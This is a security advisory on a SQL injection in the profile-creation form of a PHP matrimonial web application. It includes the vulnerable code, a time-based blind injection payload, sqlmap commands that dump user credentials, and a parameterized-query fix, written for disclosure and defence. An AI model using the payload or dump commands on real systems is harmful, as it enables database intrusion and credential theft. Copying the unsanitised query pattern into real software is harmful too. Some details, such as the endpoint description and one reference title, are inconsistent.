


**Title:** Critical SQL Injection in code-projects Matrimonial System in PHP An attacker can enumerate the entire database, extract credentials and sensitive data, and potentially achieve full database compromise. 

**Severity:** Critical 

**Researcher:** Karan Parelkar

**Executive Summary**

During an security assessment of the open-source Matrimonial System IN PHP, CSS, JS, AND MYSQL published on code-projects.org, a critical SQL Injection vulnerability was identified in  the Regular search functionality. 
The vulnerability exists because user-controlled input from the fname parameter is  concatenated directly into an SQL query without server-side sanitization or parameterized  statements. 

Successful exploitation allows an attacker to: 
• Execute arbitrary SQL queries  
• Enumerate databases  
• Extract sensitive user credentials  
• Obtain administrative account credentials  

Testing was performed only against locally deployed instance for research purposes. 


**Affected Product**

Item Details 
Matrimonial System IN PHP, CSS, JS, AND MYSQL
Source: https://code-projects.org/matrimonial-system-in-php-css-js-and-mysql-free-download/
Version:  1.0 
Language:  PHP 
Database: MySQL 
Server: Apache 
Operating System Windows (XAMPP Test Environment)

**Vulnerability Classification**

CWE-89 
Improper Neutralization of Special Elements used in an SQL Command (SQL Injection) OWASP Top 10 
A03:2021 – Injection 

**Vulnerability Details**

**Vulnerable Endpoint** 
POST /create_profile.

**Vulnerable Parameter** 
fname

**Root Cause**
The application constructs SQL statements by directly concatenating user-supplied values into SQL queries.
The vulnerable code is located in functions.php, inside the processprofile_form() function (called by create_profile.php):

```javascript

function processprofile_form($id){
   
    $fname=$_POST['fname'];
    $lname=$_POST['lname'];
    $sex=$_POST['sex'];
    $email=$_POST['email'];
    
        $day=$_POST['day'];
        $month=$_POST['month'];
        $year=$_POST['year'];
    $dob=$year ."-" . $month . "-" .$day ;
    
    $religion=$_POST['religion'];
    $caste = $_POST['caste'];
    $subcaste=$_POST['subcaste'];
    
    $country = $_POST['country'];
    $state=$_POST['state'];
    $district=$_POST['district'];
    $age=$_POST['age'];
    $maritalstatus=$_POST['maritalstatus'];
    $profileby=$_POST['profileby'];
    $education=$_POST['education'];
    $edudescr=$_POST['edudescr'];
    $bodytype=$_POST['bodytype'];
    $physicalstatus=$_POST['physicalstatus'];
    $drink=$_POST['drink'];
    $smoke=$_POST['smoke'];
    $mothertounge=$_POST['mothertounge'];
    $bloodgroup=$_POST['bloodgroup'];
    $weight=$_POST['weight'];
    $height=$_POST['height'];
    $colour=$_POST['colour'];
    $diet=$_POST['diet'];
    $occupation=$_POST['occupation'];
    $occupationdescr=$_POST['occupationdescr'];
    $fatheroccupation=$_POST['fatheroccupation'];
    $motheroccupation=$_POST['motheroccupation'];
    $income=$_POST['income'];
    $bros=$_POST['bros'];
    $sis=$_POST['sis'];
    $aboutme=$_POST['aboutme'];
    

    require_once("includes/dbconn.php");
    $sql="SELECT cust_id FROM customer WHERE cust_id=$id";
    $result=mysqlexec($sql);

if(mysqli_num_rows($result)>=1){
    //there is already a profile in this table for loggedin customer
    //update the data
    $sql="UPDATE
            customer 
        SET
           email = '$email',
           age = '$age',
           sex = '$sex',
           religion = '$religion',
           caste = '$caste',
           subcaste = '$subcaste',
           district = '$district',
           state = '$state',
           country = '$country',
           maritalstatus = '$maritalstatus',
           profilecreatedby = '$profileby',
           education  = '$education',
           education_sub = '$edudescr',
           firstname = '$fname',
           lastname = '$lname',
           body_type = '$bodytype',
           physical_status = '$physicalstatus',
           drink =  '$drink',
           mothertounge = '$mothertounge',
           colour = '$colour',
           weight = '$weight',
           smoke = '$smoke',
           dateofbirth = '$dob', 
           occupation = '$occupation', 
           occupation_descr = '$occupationdescr', 
           annual_income = '$income', 
           fathers_occupation = '$fatheroccupation',
           mothers_occupation = '$motheroccupation',
           no_bro = '$bros', 
           no_sis = '$sis', 
           aboutme = '$aboutme'
        WHERE cust_id=$id; "
           ;
   $result=mysqlexec($sql);
   if ($result) {
    echo "<script>alert(\"Successfully Updated Profile\")</script>";
    echo "<script> window.location=\"userhome.php?id=$id\"</script>";
   }
}else{
    //Insert the data
    $sql = "INSERT 
                INTO
                   customer
                   (cust_id, email, age, sex, religion, caste, subcaste, district, state, country, maritalstatus, profilecreatedby, education, education_sub, firstname, lastname, body_type, physical_status, drink, mothertounge, colour, weight, height, blood_group, diet, smoke,   dateofbirth, occupation, occupation_descr, annual_income, fathers_occupation, mothers_occupation, no_bro, no_sis, aboutme, profilecreationdate  ) 
                VALUES
                   ('$id','$email', '$age', '$sex', '$religion', '$caste', '$subcaste', '$district', '$state', '$country', '$maritalstatus', '$profileby', '$education', '$edudescr', '$fname', '$lname', '$bodytype', '$physicalstatus', '$drink', '$mothertounge', '$colour', '$weight', '$height', '$bloodgroup', '$diet', '$smoke', '$dob', '$occupation', '$occupationdescr', '$income', '$fatheroccupation', '$motheroccupation', '$bros', '$sis', '$aboutme', CURDATE())
            ";
    if (mysqli_query($conn,$sql)) {
      echo "Successfully Created profile";
      echo "<a href=\"userhome.php?id={$id}\">";
      echo "Back to home";
      echo "</a>";
      //creating a slot for partner prefernce table for prefs details with cust id
      $sql2="INSERT INTO partnerprefs (id, custId) VALUES('', '$id')";
      mysqli_query($conn,$sql2);
      $sql2="UPDATE TABLE users SET profilestat=1 WHERE id=$id";
    } else {
      echo "Error: " . $sql . "<br>" . $conn->error;
    }
}

     
}

```

Because no parameterized query or escaping mechanism is used, arbitrary SQL statements can be injected via the fname parameter. The mysqlexec() function executes the query directly via mysqli_query() with no sanitization applied at any layer, allowing the injected payload to reach the database unfiltered.

**Proof of Concept**

Step 1 – Create profile page 
The vulnerable create profile form accepts a user-controlled fname parameter.


Step 2 – Vulnerable Source Code 

The processprofile_form function directly embeds POST parameters into the SQL query. 



The ‘ in fname parameter leads to MySQL error confirming SQL injection 


Step 3 – Manual SQL Injection 
The intercepted POST request was modified by injecting a time-based SQL payload into the  fname parameter. 

Payload: 
fname=Karan' AND (SELECT 7500 FROM (SELECT(SLEEP(10)))wEXp) AND 'faZL'='faZL&lname=Parelkar&sex=Female&email=test@gmail.com&day=14&month=02&year=1990&religion=Christian&caste=Penthecost&subcaste=sub caste2&country=India&state=Taminadu&district=Kollam&age=29&maritalstatus=Divorsed&profileby=Self&education=PG&edudescr=&bodytype=Fat&physicalstatus=No Problem&drink=No&smoke=No&mothertounge=Malayalam&bloodgroup=O +ve&weight=86&height=180&colour=Dark&diet=Veg&occupation=test&occupationdescr=hfuowgef0qyf&income=30000000&fatheroccupation=nothing&motheroccupation=nothing&sis=3&bros=2&aboutme=wqeuof&op=Submit


The application response was delayed by approximately 10 seconds, confirming successful  time-based blind SQL injection.


Step 4 – SQLMap Verification 
The captured request was supplied to SQLMap. 
command: ```python python .\sqlmap.py -r .\code_test_2.txt --dbs -p fname```


SQLMap confirmed that the fname parameter is injectable using: 
• Error-based SQL Injection  
• Time-based Blind SQL Injection 

```python python .\sqlmap.py -r .\code_test_2.txt -p fname -D matrimony --tables```


Database Enumeration 
Using SQLMap, multiple databases were successfully enumerated. 
information_schema 
matrimony
mysql 
performance_schema 
phpmyadmin 
test

Credential Disclosure 
The vulnerable SQL Injection allowed extraction of user records from the application's  database.
command: 

```python python .\sqlmap.py -r .\code_test_2.txt -p fname -D matrimony -T users –dump```


The following sensitive information was retrieved: 
• Usernames  
• Passwords  
• User Level
•  email
• date of birth
• gender

**Impact**

Successful exploitation may allow an attacker to: 
• Execute arbitrary SQL statements  
• Enumerate databases  
• Dump sensitive application data  
• Obtain administrative credentials  
• Compromise confidentiality of stored information  

CVSS v3.1 
Base Score 
9.8 (Critical) 
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

**Remediation**

Developers should: 
• Replace dynamic SQL with prepared statements.  
• Use parameterized queries (PDO or MySQLi).  
• Validate and sanitize all user input.  
• Enable centralized logging and monitoring. 


**Secure Coding Example**

**Vulnerable**

```javascript
function processprofile_form($id){
   
    $fname=$_POST['fname'];
    $lname=$_POST['lname'];
    $sex=$_POST['sex'];
    $email=$_POST['email'];
    
        $day=$_POST['day'];
        $month=$_POST['month'];
        $year=$_POST['year'];
    $dob=$year ."-" . $month . "-" .$day ;
    
    $religion=$_POST['religion'];
    $caste = $_POST['caste'];
    $subcaste=$_POST['subcaste'];
    
    $country = $_POST['country'];
    $state=$_POST['state'];
    $district=$_POST['district'];
    $age=$_POST['age'];
    $maritalstatus=$_POST['maritalstatus'];
    $profileby=$_POST['profileby'];
    $education=$_POST['education'];
    $edudescr=$_POST['edudescr'];
    $bodytype=$_POST['bodytype'];
    $physicalstatus=$_POST['physicalstatus'];
    $drink=$_POST['drink'];
    $smoke=$_POST['smoke'];
    $mothertounge=$_POST['mothertounge'];
    $bloodgroup=$_POST['bloodgroup'];
    $weight=$_POST['weight'];
    $height=$_POST['height'];
    $colour=$_POST['colour'];
    $diet=$_POST['diet'];
    $occupation=$_POST['occupation'];
    $occupationdescr=$_POST['occupationdescr'];
    $fatheroccupation=$_POST['fatheroccupation'];
    $motheroccupation=$_POST['motheroccupation'];
    $income=$_POST['income'];
    $bros=$_POST['bros'];
    $sis=$_POST['sis'];
    $aboutme=$_POST['aboutme'];
    

    require_once("includes/dbconn.php");
    $sql="SELECT cust_id FROM customer WHERE cust_id=$id";
    $result=mysqlexec($sql);

if(mysqli_num_rows($result)>=1){
    //there is already a profile in this table for loggedin customer
    //update the data
    $sql="UPDATE
            customer 
        SET
           email = '$email',
           age = '$age',
           sex = '$sex',
           religion = '$religion',
           caste = '$caste',
           subcaste = '$subcaste',
           district = '$district',
           state = '$state',
           country = '$country',
           maritalstatus = '$maritalstatus',
           profilecreatedby = '$profileby',
           education  = '$education',
           education_sub = '$edudescr',
           firstname = '$fname',
           lastname = '$lname',
           body_type = '$bodytype',
           physical_status = '$physicalstatus',
           drink =  '$drink',
           mothertounge = '$mothertounge',
           colour = '$colour',
           weight = '$weight',
           smoke = '$smoke',
           dateofbirth = '$dob', 
           occupation = '$occupation', 
           occupation_descr = '$occupationdescr', 
           annual_income = '$income', 
           fathers_occupation = '$fatheroccupation',
           mothers_occupation = '$motheroccupation',
           no_bro = '$bros', 
           no_sis = '$sis', 
           aboutme = '$aboutme'
        WHERE cust_id=$id; "
           ;
   $result=mysqlexec($sql);
   if ($result) {
    echo "<script>alert(\"Successfully Updated Profile\")</script>";
    echo "<script> window.location=\"userhome.php?id=$id\"</script>";
   }
}else{
    //Insert the data
    $sql = "INSERT 
                INTO
                   customer
                   (cust_id, email, age, sex, religion, caste, subcaste, district, state, country, maritalstatus, profilecreatedby, education, education_sub, firstname, lastname, body_type, physical_status, drink, mothertounge, colour, weight, height, blood_group, diet, smoke,   dateofbirth, occupation, occupation_descr, annual_income, fathers_occupation, mothers_occupation, no_bro, no_sis, aboutme, profilecreationdate  ) 
                VALUES
                   ('$id','$email', '$age', '$sex', '$religion', '$caste', '$subcaste', '$district', '$state', '$country', '$maritalstatus', '$profileby', '$education', '$edudescr', '$fname', '$lname', '$bodytype', '$physicalstatus', '$drink', '$mothertounge', '$colour', '$weight', '$height', '$bloodgroup', '$diet', '$smoke', '$dob', '$occupation', '$occupationdescr', '$income', '$fatheroccupation', '$motheroccupation', '$bros', '$sis', '$aboutme', CURDATE())
            ";
    if (mysqli_query($conn,$sql)) {
      echo "Successfully Created profile";
      echo "<a href=\"userhome.php?id={$id}\">";
      echo "Back to home";
      echo "</a>";
      //creating a slot for partner prefernce table for prefs details with cust id
      $sql2="INSERT INTO partnerprefs (id, custId) VALUES('', '$id')";
      mysqli_query($conn,$sql2);
      $sql2="UPDATE TABLE users SET profilestat=1 WHERE id=$id";
    } else {
      echo "Error: " . $sql . "<br>" . $conn->error;
    }
}

     
}


```


**Secure**

```javascript
function processprofile_form($id)
{
    require_once "includes/dbconn.php";

    // ID should ideally come from the logged-in session, NOT from POST/URL.
    $id = (int)$id;
    if ($id <= 0 || $_SERVER['REQUEST_METHOD'] !== 'POST') {
        exit('Invalid request');
    }

    // Get POST data safely
    $p = fn($key) => trim($_POST[$key] ?? '');

    $fname            = $p('fname');
    $lname            = $p('lname');
    $email            = $p('email');
    $sex              = $p('sex');
    $religion         = $p('religion');
    $caste            = $p('caste');
    $subcaste         = $p('subcaste');
    $district          = $p('district');
    $state             = $p('state');
    $country           = $p('country');
    $maritalstatus     = $p('maritalstatus');
    $profileby         = $p('profileby');
    $education         = $p('education');
    $edudescr          = $p('edudescr');
    $bodytype          = $p('bodytype');
    $physicalstatus    = $p('physicalstatus');
    $drink             = $p('drink');
    $mothertounge      = $p('mothertounge');
    $colour            = $p('colour');
    $weight            = $p('weight');
    $height            = $p('height');
    $bloodgroup        = $p('bloodgroup');
    $diet              = $p('diet');
    $smoke             = $p('smoke');
    $occupation        = $p('occupation');
    $occupationdescr   = $p('occupationdescr');
    $income            = $p('income');
    $fatheroccupation  = $p('fatheroccupation');
    $motheroccupation  = $p('motheroccupation');
    $bros              = $p('bros');
    $sis               = $p('sis');
    $aboutme           = $p('aboutme');
    $age               = (int)($_POST['age'] ?? 0);

    // Basic validation
    if (!filter_var($email, FILTER_VALIDATE_EMAIL)) {
        exit('Invalid email');
    }

    $day   = (int)($_POST['day'] ?? 0);
    $month = (int)($_POST['month'] ?? 0);
    $year  = (int)($_POST['year'] ?? 0);

    if (!checkdate($month, $day, $year)) {
        exit('Invalid date of birth');
    }

    $dob = sprintf('%04d-%02d-%02d', $year, $month, $day);

    // Check whether profile exists
    $stmt = $conn->prepare("SELECT cust_id FROM customer WHERE cust_id = ?");
    $stmt->bind_param("i", $id);
    $stmt->execute();
    $exists = $stmt->get_result()->num_rows > 0;
    $stmt->close();

    $conn->begin_transaction();

    try {
        if ($exists) {

            $sql = "UPDATE customer SET
                email=?, age=?, sex=?, religion=?, caste=?, subcaste=?,
                district=?, state=?, country=?, maritalstatus=?,
                profilecreatedby=?, education=?, education_sub=?,
                firstname=?, lastname=?, body_type=?, physical_status=?,
                drink=?, mothertounge=?, colour=?, weight=?, smoke=?,
                dateofbirth=?, occupation=?, occupation_descr=?,
                annual_income=?, fathers_occupation=?, mothers_occupation=?,
                no_bro=?, no_sis=?, aboutme=?
                WHERE cust_id=?";

            $stmt = $conn->prepare($sql);

            $stmt->bind_param(
                "sissssssssssssssssssssssssssssi",
                $email, $age, $sex, $religion, $caste, $subcaste,
                $district, $state, $country, $maritalstatus,
                $profileby, $education, $edudescr, $fname, $lname,
                $bodytype, $physicalstatus, $drink, $mothertounge,
                $colour, $weight, $smoke, $dob, $occupation,
                $occupationdescr, $income, $fatheroccupation,
                $motheroccupation, $bros, $sis, $aboutme, $id
            );

            $stmt->execute();
            $stmt->close();

        } else {

            $sql = "INSERT INTO customer
                (cust_id,email,age,sex,religion,caste,subcaste,district,state,
                 country,maritalstatus,profilecreatedby,education,education_sub,
                 firstname,lastname,body_type,physical_status,drink,mothertounge,
                 colour,weight,height,blood_group,diet,smoke,dateofbirth,
                 occupation,occupation_descr,annual_income,fathers_occupation,
                 mothers_occupation,no_bro,no_sis,aboutme,profilecreationdate)
                VALUES
                (?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,?,CURDATE())";

            $stmt = $conn->prepare($sql);

            $stmt->bind_param(
                "isissssssssssssssssssssssssssss",
                $id, $email, $age, $sex, $religion, $caste, $subcaste,
                $district, $state, $country, $maritalstatus, $profileby,
                $education, $edudescr, $fname, $lname, $bodytype,
                $physicalstatus, $drink, $mothertounge, $colour, $weight,
                $height, $bloodgroup, $diet, $smoke, $dob, $occupation,
                $occupationdescr, $income, $fatheroccupation,
                $motheroccupation, $bros, $sis, $aboutme
            );

            $stmt->execute();
            $stmt->close();

            // Create partner preferences only for a new profile
            $stmt = $conn->prepare(
                "INSERT INTO partnerprefs (custId) VALUES (?)"
            );
            $stmt->bind_param("i", $id);
            $stmt->execute();
            $stmt->close();
        }

        $conn->commit();

        echo "Profile saved successfully";
        echo '<script>
                window.location.href = "userhome.php";
              </script>';

    } catch (Throwable $e) {
        $conn->rollback();
        error_log($e->getMessage());
        exit("Unable to save profile");
    }
}


```

**References**

• Product Inventory System in PHP (code-projects.org) (https://code-projects.org/matrimonial-system-in-php-css-js-and-mysql-free-download/) 
• CWE-89 – SQL Injection  
• OWASP SQL Injection Prevention Cheat Sheet  
• OWASP Top 10 2021 – Injection 

**Researcher Information**

Name: Karan Parelkar 
Independent Security Researcher 
Email: karan.parelkar2005@gmail.com 
GitHub: https://github.com/KaranParelkar 
LinkedIn: https://www.linkedin.com/in/karan-parelkar-6a370125b/
